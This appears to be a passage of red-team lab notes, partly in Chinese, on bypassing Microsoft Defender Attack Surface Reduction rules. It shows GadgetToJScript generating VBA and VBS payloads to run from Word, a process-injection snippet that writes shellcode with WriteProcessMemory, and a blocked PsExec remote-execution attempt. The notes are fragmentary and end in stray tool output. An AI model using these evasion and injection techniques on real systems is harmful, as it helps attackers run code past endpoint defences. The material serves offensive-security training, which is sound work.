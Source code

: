 When we run G2JS, we provide the source code and specify the output type.

```
C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -c TestAssembly\Program.cs -o C:\Users\Administrator\Desktop\vba -w vba -b
[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
```

复制 VBA 文件的内容

将其粘贴到 WKSTN-2上的 Word 中并执行

1683870553467.jpg

# Block Code Injection

> "This rule blocks code injection attempts from Office apps into other processes."(“此规则阻止将代码从 Office 应用程序注入到其他进程的尝试。”)


内联声明（Inline declarations）

错误：
```
WriteProcessMemory(
    pi.hProcess,
    baseAddress,
    shellcode,
    shellcode.Length,
    out _);
```


正确:
```
IntPtr bytesWriten;
WriteProcessMemory(
    pi.hProcess,
    baseAddress,
    shellcode,
    shellcode.Length,
    out bytesWriten);
```

# Block PsExec / WMI

> "This rule blocks processes created through PsExec and WMI from running."(“此规则阻止通过 PsExec 和 WMI 创建的进程运行。”)

尝试通过 PsExec 在远程目标上执行二进制文件失败。
```
C:\Users\cbridges>C:\Sysinternals\PsExec64.exe \\wkstn-2 cmd.exe

PsExec v2.32 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

PsExec could not start cmd.exe on wkstn-2:
The system cannot find the file specified.
```


[+]: Generating the vbs payload
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs